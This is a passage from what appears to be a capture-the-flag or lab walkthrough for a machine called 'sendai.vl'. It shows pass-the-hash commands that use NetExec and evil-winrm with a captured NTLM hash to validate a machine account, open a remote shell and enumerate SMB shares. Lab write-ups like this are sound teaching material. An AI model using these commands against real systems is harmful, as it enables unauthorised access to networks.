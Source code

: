 Now let’s go and validate the user Hash

```bash
nxc smb sendai.vl -u mgtsvc$ -H 'c15a7132cd45d7e342dc14f29b50b54c'
```

![image.png](../images/sendai%2015.png)

And we have access to this user!

Now let’s try to login using this user

```bash
evil-winrm -i sendai.vl -u 'mgtsvc$' -H 'c15a7132cd45d7e342dc14f29b50b54c'
```

![image.png](../images/sendai%2016.png)

Now let’s enumerate the shares using this user

```bash
nxc smb sendai.vl -u mgtsvc$ -H 'c15a7132cd45d7e342dc14f29b50b54c' --shares
```

![image.png](../images/sendai%2017.png)
